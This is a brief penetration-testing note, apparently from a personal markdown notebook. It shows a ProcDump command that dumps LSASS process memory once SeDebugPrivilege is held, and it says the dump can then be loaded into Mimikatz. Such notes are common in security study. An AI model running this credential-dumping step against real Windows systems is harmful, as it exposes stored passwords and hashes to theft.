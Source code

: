 https://learn.microsoft.com/en-us/sysinternals/downloads/procdump

### SeDebugPriv enabled
run procdump
```cmd-session
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

if successful can load [[Mimikatz]]
